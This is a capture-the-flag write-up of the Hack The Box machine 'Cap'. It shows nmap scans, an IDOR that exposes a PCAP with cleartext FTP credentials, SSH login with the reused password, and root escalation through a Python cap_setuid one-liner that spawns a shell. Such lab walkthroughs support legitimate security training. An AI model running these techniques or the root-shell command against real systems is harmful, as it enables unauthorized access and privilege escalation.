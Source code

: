 [[Maquinas de THM y HTB]]

Ping for TTL and visibility

``` java
❯ ping -c 1 10.10.10.245

PING 10.10.10.245 (10.10.10.245) 56(84) bytes of data.
64 bytes from 10.10.10.245: icmp_seq=1 ttl=63 time=37.3 ms

--- 10.10.10.245 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 37.252/37.252/37.252/0.000 ms
```

(TTL suggests Linux)

``` java
❯ sudo nmap -sS -A -T4 10.10.10.245 -oN nmap.txt

[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 19:30 CET
Nmap scan report for 10.10.10.245
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   37.88 ms 10.10.14.1
2   38.07 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
```

## FTP Enum

No FTP anon login allowed sadly:

``` bash
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
ftp> 
ftp> exit
221 Goodbye.

❯ sudo nmap -p 21 --script ftp-anon 10.10.10.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 19:34 CET
Nmap scan report for 10.10.10.245
Host is up (0.039s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 4.59 seconds
```

Lets take a look at the other services before running into an hour long brute-force attack.
## HTTP Enum

``` bash
❯ dirb http://10.10.10.245/ | tee dirb.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Feb 18 19:35:42 2025
URL_BASE: http://10.10.10.245/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.245/ ----
+ http://10.10.10.245/data (CODE:302|SIZE:208)                                                        
^C> Testing: http://10.10.10.245/done    
```

Dirb doesnt enumerate much of anything. I'll walk the app before running ferox.

The app has a dashboard and some network data, but the most interesting URL is hxxp://10.10.10.245/data/4, which could potentially be vulnerable to IDORs. (It's often a good practice to fuzz any endpoint that uses a cleartext number for anything)

Changing the URL to hxxp://10.10.10.245/data/0 shows different information than that which we originally had, we can download it as PCAP data.

![[Pasted image 20250218194258.png]]

We find FTP the user nathan:Buck3tH4TF0RM3!

``` java
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||29740|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Feb 18 16:19 snap
-r--------    1 1001     1001           33 Feb 18 15:07 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||16511|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**********************************************************|    33        1.20 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.80 KiB/s)
```

user.txt seems to be the user flag.

We can use the same creds for SSH:

``` java
❯ ssh nathan@10.10.10.245

The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 18 18:46:03 UTC 2025

  System load:           0.02
  Usage of /:            36.7% of 8.73GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:3a27

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Feb 18 18:33:31 2025 from 10.10.14.238
nathan@cap:~$ 
```

Lets transfer LinPEASS via Curl to the target.

We have these two options according to it:

``` bash
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

Vulnerable to CVE-2021-3560
```

I'm too lazy to try to run an exploit initially, so let's see what cap_setuid is.

This is what GTFOBins mentions on the Python page:

``` bash
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

In our particular case the capabilities are only under py3.8, so we could use:

``` bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And we are root:

``` bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
[censored]
# 
```

